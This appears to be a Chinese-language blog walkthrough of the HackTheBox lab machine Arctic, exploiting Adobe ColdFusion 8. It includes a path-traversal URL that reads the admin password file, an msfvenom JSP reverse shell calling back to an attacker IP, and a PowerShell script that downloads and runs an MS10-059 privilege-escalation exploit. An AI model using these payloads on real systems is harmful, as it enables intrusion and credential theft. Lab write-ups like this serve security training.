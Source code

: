 ```yaml
---
layout: post
title:  "HackTheBox >_ Arctic_11"
description: walkthrough
category: HackTheBox
---
```

# Arctic_11

![image-20200919214733180]({{ site.url }}/assets/Arctic_11.assets/image-20200919214733180.png)

这个在oscp时曾经做过一样的，非常简单

扫目录得到

```bash
http://10.10.10.11:8500/CFIDE/administrator/
```

![image-20200919214935876]({{ site.url }}/assets/Arctic_11.assets/image-20200919214935876.png)

ADOBE COLDFUSION 8

[https://www.exploit-db.com/exploits/14641](https://www.exploit-db.com/exploits/14641)

根据漏洞介绍使用以下payload可以直接读取到凭证

```bash
http://10.10.10.11/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```

浏览器直接浏览得到md5加密的密码

![image-20200919215407773]({{ site.url }}/assets/Arctic_11.assets/image-20200919215407773.png)

```bash
2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
```

![image-20200919215526979]({{ site.url }}/assets/Arctic_11.assets/image-20200919215526979.png)

```bash
happyday
```

使用用户名`admin`密码`happyday`登陆进ADOBE的后台

此后台可以在`DEBUGGING & LOGGING`下的`Schedule Tasks`中可以通过增加新任务的方式添加文件进服务器。

首先本地生成一个payoad

```bash
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.7 LPORT=4444 -f raw > rshell.jsp
```

同时在本地当前工作目录建立简单的php http服务

```bash
$ php -S localhost:80
PHP 7.2.9-1 Development Server started at Sun Feb  2 14:25:56 2020
Listening on http://localhost:80
Document root is /root/HackTheBox/Arctic_10.10.10.11
Press Ctrl-C to quit.
```

![image-20200919215842171]({{ site.url }}/assets/Arctic_11.assets/image-20200919215842171.png)

在url这里将kali php http 服务下的制作好的rshell文件的url填入

![image-20200919220146247]({{ site.url }}/assets/Arctic_11.assets/image-20200919220146247.png)

文件的真实路径可以通过查看`SERVER SETTINGS`下的`Settings Summary`中查看

![image-20200919220329123]({{ site.url }}/assets/Arctic_11.assets/image-20200919220329123.png)

![image-20200919220446937]({{ site.url }}/assets/Arctic_11.assets/image-20200919220446937.png)

增加任务后点击提交按钮即可浏览`http://10.10.10.11:8500/CFIDE/rshell.jsp`以激活shell

在kali 监听端口可获得shell

![image-20200919221407108]({{ site.url }}/assets/Arctic_11.assets/image-20200919221407108.png)

在用户桌面文件夹可获得user

![image-20200919221539531]({{ site.url }}/assets/Arctic_11.assets/image-20200919221539531.png)

基础枚举后发现win版本适合使用ms10-059

[https://www.exploit-db.com/exploits/14610/](https://www.exploit-db.com/exploits/14610/)

下载好exploit后，在靶机上通过echo生成下载用的powershell脚本

```text
C:\ColdFusion8>echo $webclient = New-Object System.Net.WebClient >>wg.ps1  
echo $webclient = New-Object System.Net.WebClient >>wg.ps1

C:\ColdFusion8>echo $url = "http://10.10.14.7/MS10-059.exe" >>wg.ps1
echo $url = "http://10.10.14.7/MS10-059.exe" >>wg.ps1

C:\ColdFusion8>echo $file = "exploit.exe" >>wg.ps1
echo $file = "exploit.exe" >>wg.ps1

C:\ColdFusion8>echo $webclient.DownloadFile($url,$file) >>wg.ps1
echo $webclient.DownloadFile($url,$file) >>wg.ps1

C:\ColdFusion8>powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wg.ps1
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wg.ps1
```

![image-20200919222534790]({{ site.url }}/assets/Arctic_11.assets/image-20200919222534790.png)

本地未占用的端口设立监听，执行exploit，在监听端口获得新的shell

![image-20200919223157866]({{ site.url }}/assets/Arctic_11.assets/image-20200919223157866.png)

![image-20200919223252336]({{ site.url }}/assets/Arctic_11.assets/image-20200919223252336.png)

root

![image-20200919223412948]({{ site.url }}/assets/Arctic_11.assets/image-20200919223412948.png)

